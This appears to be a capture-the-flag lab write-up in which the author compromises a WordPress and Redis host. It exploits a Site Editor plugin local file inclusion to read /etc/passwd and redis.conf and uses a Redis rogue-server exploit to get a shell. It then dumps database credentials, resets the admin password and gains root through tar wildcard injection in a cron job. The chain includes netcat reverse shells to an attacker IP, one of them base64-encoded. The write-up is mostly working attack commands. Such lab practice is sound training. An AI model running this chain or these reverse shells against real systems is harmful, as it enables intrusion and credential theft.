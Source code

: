 ### wp-scan
`wpscan --url http://$IP/ --enumerate` <- nope

`wpscan --url http://$IP/ --api-token <SNIP>`

```bash
[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.200.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.200.166/wp-content/plugins/site-editor/readme.txt
```

* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis
* .conf 
* /redis.conf <- It works

https://redis.io/docs/manual/config/

```creds
requirepass "hello world"

Ready4Redis?
```

```bash
redis-cli -h $IP -a Ready4Redis?
```

* https://github.com/A1vinSmith/redis-rogue-getshell
* https://github.com/A1vinSmith/redis-rogue-server

```bash
python3 redis-rogue-server.py --rhost 192.168.200.166 --rport 6379 --lhost 192.168.49.200 --lport 6379 --auth "Ready4Redis?"
```

### Foothold
```bash
cat /etc/passwd | grep -i 'bash'
root:x:0:0:root:/root:/bin/bash
alice:x:1000:1000::/home/alice:/bin/bash

find / -user alice 2>/dev/null

grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD=" --color=always 2>/dev/null
grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD" --color=always 2>/dev/null

find / -user alice -not -path "/var/www/html/*" 2>/dev/null
```

wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'karl' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Wordpress1234' );
```

```MariaDB [wordpress]> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com | http://localhost | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
```

### Lateral Movement
Update the password for that.
```
UPDATE wp_users SET user_pass=MD5('alvin') WHERE ID = 1;
```

admin:alvin -> wordpress 404 to get in.

### Root 
Obviously `tar` wildcard with `/etc/crontab`

```bash port 4242
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.200 4242 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch /var/www/html/--checkpoint=1
```

```bash port 80
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4yMDAgODAgPi90bXAvZg== | base64 -d > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Both worked.